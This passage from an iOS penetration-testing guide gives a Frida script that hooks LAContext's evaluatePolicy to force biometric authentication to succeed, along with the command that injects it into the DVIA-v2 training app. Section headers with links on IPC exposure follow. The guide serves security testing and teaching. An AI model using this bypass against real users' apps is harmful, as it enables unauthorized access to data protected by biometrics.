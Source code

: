 The script below is injected to modify the result of the **evaluatePolicy** method. It changes the callback's result to always indicate success.

```swift
// from https://securitycafe.ro/2022/09/05/mobile-pentesting-101-bypassing-biometric-authentication/
if(ObjC.available) {
    console.log("Injecting...");
    var hook = ObjC.classes.LAContext["- evaluatePolicy:localizedReason:reply:"];
    Interceptor.attach(hook.implementation, {
        onEnter: function(args) {
            var block = new ObjC.Block(args[4]);
            const callback = block.implementation;
            block.implementation = function (error, value)  {

                console.log("Changing the result value to true")
                const result = callback(1, null);
                return result;
            };
        },
    });
} else {
    console.log("Objective-C Runtime is not available!");
}
```

To inject the Frida script and bypass the biometric authentication, the following command is used:

```bash
frida -U -f com.highaltitudehacks.DVIAswiftv2 --no-pause -l fingerprint-bypass-ios.js
```

## Sensitive Functionality Exposure Through IPC

### Custom URI Handlers / Deeplinks / Custom Schemes

{{#ref}}
ios-custom-uri-handlers-deeplinks-custom-schemes.md
{{#endref}}

### Universal Links

{{#ref}}
ios-universal-links.md
{{#endref}}

### UIActivity Sharing

{{#ref}}
ios-uiactivity-sharing.md
{{#endref}}

### UIPasteboard

